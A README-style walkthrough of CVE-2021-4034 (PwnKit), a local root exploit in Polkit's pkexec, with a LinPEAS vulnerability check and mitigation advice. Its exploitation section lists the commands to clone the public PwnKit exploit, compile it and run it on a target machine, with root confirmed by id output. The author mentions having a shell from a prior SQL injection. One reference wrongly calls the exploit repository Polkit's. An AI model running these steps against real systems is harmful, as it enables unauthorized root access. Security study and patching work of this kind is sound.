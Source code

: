 # Proof of Concept: CVE-2021-4034 - Pkexec Local Privilege Escalation

## Overview

This Proof of Concept (PoC) demonstrates the exploitation of **CVE-2021-4034**, a local privilege escalation vulnerability in the **Polkit** `pkexec` utility, which is part of the default installation on many Linux distributions. The vulnerability allows an unprivileged user to execute arbitrary commands as root, leading to a full system compromise.

- **CVE**: [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
- **Severity**: Critical
- **Platform**: Linux/Unix
- **Vulnerability Type**: Local Privilege Escalation
- **Affected Software**: Polkit `pkexec` utility
- **Impact**: Allows an unprivileged user to gain root privileges.

## Vulnerability Details

The vulnerability lies in the `pkexec` utility of **Polkit**, a component responsible for controlling system-wide privileges in Unix-like operating systems. **CVE-2021-4034**, also known as **PwnKit**, can be exploited to escalate privileges from a local, unprivileged user to root. The flaw allows arbitrary command execution due to a failure to validate the arguments passed to `pkexec`.

## How to Check if Your System is Vulnerable

To determine whether your Linux system is vulnerable to **CVE-2021-4034 (Pkexec Local Privilege Escalation)**, you can use the privilege escalation detection tool **LinPEAS**. LinPEAS helps identify common privilege escalation vectors, including known vulnerabilities like **CVE-2021-4034**.

#### Steps to Check with LinPEAS:

1. **Download LinPEAS**:
   First, download LinPEAS onto your system by running the following command:

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh  
```

2. **Run LinPEAS**:
   Once downloaded, give LinPEAS execution permissions and run it to scan the system for privilege escalation vulnerabilities:

``` 
   chmod +x linpeas.sh
   ./linpeas.sh
```


3. **Check for Vulnerabilities**:
   After LinPEAS completes its scan, it will provide a detailed report. Look for any references to **CVE-2021-4034** or **Polkit** within the results to determine if your system is vulnerable to this specific issue.

LinPEAS provides a comprehensive security check for privilege escalation risks and can help identify vulnerabilities that need immediate attention.

## Exploitation

### Tools Required:
- A vulnerable system with `pkexec` installed (default on most Linux distributions).
- Exploit script for **CVE-2021-4034** (available on GitHub).

### Steps to Exploit:

1. **Initial Access**: 
   The attack begins by obtaining initial low-privileged user access to the target machine, such as through a reverse shell. In this case, I had a low-privileged shell from an earlier SQL injection attack.

2. **Download the Exploit**: 
   The public exploit for **CVE-2021-4034** is available on GitHub. Clone the repository containing the exploit:

```
   git clone https://github.com/ly4k/PwnKit.git
```   

3. **Compile the Exploit**: 
   Navigate to the `PwnKit` directory and compile the exploit code using GCC:

```   
   gcc pwnkit.c -o pwnkit
```   

4. **Execute the Exploit**: 
   Once the exploit is compiled, run it on the target machine. The exploit will use the vulnerability in `pkexec` to escalate privileges to root:

```   
   ./pwnkit
```   

5. **Gain Root Access**: 
   Upon successful execution, the exploit grants root-level access to the system. 

   **Proof of Exploit Example:**

   ![Proof of Exploit](path_to_proof_of_exploit_image.png)

## Proof of Exploit

After executing the exploit, you can verify that root access has been obtained by running the following command:

```
id
```

Expected output:

```
uid=0(root) gid=0(root) groups=0(root)
```

This output confirms that root privileges have been successfully gained on the target machine.

## Mitigation

To mitigate this vulnerability, affected users should update to a patched version of **Polkit**. System administrators should ensure that their systems are up to date with the latest security patches to prevent local privilege escalation attacks. The specific patch for **CVE-2021-4034** should be applied as soon as possible to secure the system.

Additionally:
- Enforce the principle of least privilege (POLP) by minimizing user privileges on critical systems.
- Implement a robust patch management process to keep all software up to date.

## References

- [CVE-2021-4034 on Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
- [Polkit GitHub Repository](https://github.com/ly4k/PwnKit)

---

**Disclaimer**: This PoC is intended for educational and research purposes only.
